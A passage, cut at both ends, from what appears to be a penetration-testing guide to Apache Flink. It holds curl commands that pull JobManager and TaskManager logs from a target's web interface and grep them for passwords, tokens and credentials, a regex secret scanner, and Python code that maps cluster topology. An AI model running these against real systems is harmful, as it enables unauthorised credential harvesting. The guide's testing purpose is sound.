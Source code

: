```python
        r'key=\S+',
        r'credential=\S+'
    ]
    
    findings = {}
    for pattern in sensitive_patterns:
        matches = re.findall(pattern, metrics_data, re.IGNORECASE)
        if matches:
            findings[pattern] = matches
    
    return findings
```

### Log File Analysis

```bash
# Access log files through web interface
curl -s http://<target>:8081/jobmanager/log | grep -E "(ERROR|WARN|Exception)"

# Extract configuration from logs
curl -s http://<target>:8081/jobmanager/log | grep -E "(password|secret|key|token|credential)"

# TaskManager log analysis
curl -s http://<target>:8081/taskmanagers/<tm_id>/log
```

---

## Network-Level Reconnaissance

### Cluster Topology Discovery

```python
def map_flink_cluster(seed_host):
    """Map complete Flink cluster topology"""
    base_url = f"http://{seed_host}:8081"
    
    # Get cluster overview
    overview = requests.get(f"{base_url}/overview").json()
    
    # Enumerate TaskManagers
    taskmanagers = requests.get(f"{base_url}/taskmanagers").json()
    
    cluster_map = {
        "jobmanager": {
            "host": seed_host,
            "port": 8081,
            "slots_total": overview.get("slots-total", 0),
            "slots_available": overview.get("slots-available", 0)
        },
        "taskmanagers": []
    }
    
    for tm in taskmanagers.get("taskmanagers", []):
        tm_info = {
            "id": tm["id"],
            "path": tm["path"],
            "datacenter": tm.get("datacenter"),
            "slots": tm["slotsNumber"],
            "memory": tm["memory"],
            "hardware": tm["hardware"]
        }
        cluster_map["taskmanagers"].append(tm_info)
    
```